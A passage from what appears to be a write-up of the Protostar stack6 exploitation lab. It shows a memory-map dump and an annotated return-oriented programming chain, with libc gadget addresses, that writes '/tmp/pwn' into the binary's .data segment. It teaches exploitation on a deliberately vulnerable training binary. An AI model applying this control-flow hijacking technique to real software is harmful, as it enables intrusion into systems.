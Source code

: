 	08049000-0804a000 rwxp 00000000 00:10 3537       /opt/protostar/bin/stack6
	b7e96000-b7e97000 rwxp 00000000 00:00 0
	b7e97000-b7fd5000 r-xp 00000000 00:10 759        /lib/libc-2.11.2.so
	b7fd5000-b7fd6000 ---p 0013e000 00:10 759        /lib/libc-2.11.2.so
	b7fd6000-b7fd8000 r-xp 0013e000 00:10 759        /lib/libc-2.11.2.so
	b7fd8000-b7fd9000 rwxp 00140000 00:10 759        /lib/libc-2.11.2.so
	b7fd9000-b7fdc000 rwxp 00000000 00:00 0
	b7fe0000-b7fe2000 rwxp 00000000 00:00 0
	b7fe2000-b7fe3000 r-xp 00000000 00:00 0          [vdso]
	b7fe3000-b7ffe000 r-xp 00000000 00:10 741        /lib/ld-2.11.2.so
	b7ffe000-b7fff000 r-xp 0001a000 00:10 741        /lib/ld-2.11.2.so
	b7fff000-b8000000 rwxp 0001b000 00:10 741        /lib/ld-2.11.2.so
	bffeb000-c0000000 rwxp 00000000 00:00 0          [stack]

We need to setup our stack as follows using the `libc` base of `0xb7e97000`. 

	<lower memory>
	...
	# Load the target address in .data
	    0xb7fcc19d <- Return address (pop ecx; ret)
	    0x08049710 <- Target memory address in .data
	# Load the first part of our string "/tmp" into edx
	    0xb7e98a9e <- Return address (pop edx; ret)
	    "/tmp" <- First part of our string /tmp
	# Perform to move from edx to the .data segment
	    0xb7f0b997 <- Return address (mov dword [ecx], edx; ret)
	# Load the next target address in .data
	    0xb7fcc19d <- Return address (pop ecx; ret)
	    0x08049714 <- Target memory address in .data + 4 bytes
	# Load the second part of our string "/pwn" into edx 
	    0xb7e98a9e <- Return address (pop edx; ret)
	    "/pwn" <- Second part of our string /pwn
	# Perform the move to .data
	    0xb7f0b997 <- Return address (mov dword [ecx], edx; ret)
	# Load the final target address in .data
	    0xb7fcc19d <- Return address (pop ecx; ret)
	    0x08049718 <- Target memory address in .data + 4 bytes
	# Load the NULL into edx 
	    0xb7e98a9e <- Return address (pop edx; ret)
	    0x00000000 <- NULL bytes
	# Perform the move to .data
	    0xb7f0b997 <- Return address (mov dword [ecx], edx; ret)
	...
	<higher memory>
